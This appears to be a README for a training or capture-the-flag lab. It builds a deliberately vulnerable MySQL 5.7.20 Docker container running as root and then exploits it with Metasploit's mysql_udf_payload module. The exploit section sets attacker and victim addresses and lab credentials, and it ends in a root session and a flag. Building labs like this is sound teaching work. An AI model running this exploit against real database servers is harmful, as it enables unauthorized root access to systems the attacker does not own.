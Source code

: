 # Overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/Netsec/main/mysqldb/mysqldb-UbuntuServerX86-64.sh
    $ chmod +x mysqldb-UbuntuServerX86-64.sh
    $ ./mysqldb-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd mysqldb/mysqldb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tmysqldb .
    $ docker run -d --name mysqldb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tmysqldb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it mysqldb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates a user, allows it to access MySQL both locally and remotely, and gives it permission to upload and execute user-defined functions
# Exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/home/admin```.
# Notes
1. The MySQL login credentials can be changed by editing ```UbuntuServerX86-64/config_mysql.txt```
2. The flag filename and contents can be changed by editing ```UbuntuServerX86-64/Dockerfile``` below the ```#this is the flag``` comment
